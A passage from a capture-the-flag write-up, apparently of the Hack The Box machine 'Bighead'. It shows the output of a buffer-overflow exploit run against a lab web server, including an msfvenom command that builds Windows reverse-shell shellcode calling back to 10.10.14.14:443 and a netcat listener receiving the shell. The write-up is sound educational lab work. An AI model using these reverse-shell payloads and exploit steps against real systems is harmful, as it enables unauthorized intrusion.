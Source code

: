 
### Buffer Overflow

Analysis will reveal that there’s a buffer overflow in the url handler for the
web server that I can use to get execution. I’ll explore that and write an
exploit in a [companion post](/2019/05/04/htb-bighead-bof.html). By the end of
that post, I have a script I can run to get a shell.

I can run my script:

    
    
    root@kali# python pwn_bighead.py dev.bighead.htb 80 10.10.14.14 443
    [*] Generating shellcode:
        msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXIT_FUNC=THREAD -a x86 --platform windows -b "\x00\x0a\x0d" -f python -v shellcode -o sc.py
    [+] Shellcode generated successfully
    [*] Sending payload 5 times
    [+] Opening connection to dev.bighead.htb on port 80: Done
    [*] Closed connection to dev.bighead.htb port 80
    [+] Opening connection to dev.bighead.htb on port 80: Done
    [*] Closed connection to dev.bighead.htb port 80
    [+] Opening connection to dev.bighead.htb on port 80: Done
    [*] Closed connection to dev.bighead.htb port 80
    [+] Opening connection to dev.bighead.htb on port 80: Done
    [*] Closed connection to dev.bighead.htb port 80
    [+] Opening connection to dev.bighead.htb on port 80: Done
    [*] Closed connection to dev.bighead.htb port 80
    [+] Payload sent.
    [*] Sleeping 1 second.
    [*] Sending overflow + egghunter.
    [*] Expect callback in 0-15 minutes to 10.10.14.14:443.
    [+] Opening connection to dev.bighead.htb on port 80: Done
    [*] Closed connection to dev.bighead.htb port 80
    

After some amount of time (can be up to 10-15 minutes if the server has a lot
in memory), I get a shell:

    
    
    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.112.
    Ncat: Connection from 10.10.10.112:64296.
    Microsoft Windows [Version 6.0.6002]
    Copyright (c) 2006 Microsoft Corporation.  All rights reserved.
    
    C:\nginx>whoami
    piedpiper\nelson
    

I can go grab `user.txt`, but it’s a troll:

    
    